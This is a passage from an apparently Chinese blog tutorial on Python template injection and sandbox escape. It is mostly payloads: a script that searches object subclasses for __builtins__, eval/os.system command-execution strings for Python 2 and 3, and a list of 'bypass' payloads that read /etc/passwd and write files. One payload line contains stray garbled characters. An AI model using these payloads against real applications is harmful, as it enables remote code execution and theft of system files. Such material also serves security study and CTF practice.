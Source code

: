 **不过同样，只能在python2版本使用**

这时候就要推荐__builtins__：

#coding:utf-8

search = '__builtins__'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        print(i.__init__.__globals__.keys())
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903193619159-1700547757.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903193619159-1700547757.png)

这时候我们的命令执行payload就出来了：  
python3：

().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")

python2：

().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")

在python交互终端中尝试输出：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903193824030-649565108.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903193824030-649565108.png)

实际注入效果：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903194150593-332610088.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903194150593-332610088.png)

既然大概知道原理跟利用，我这里不再废话，直接给出大佬们各种绕过payload：

获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

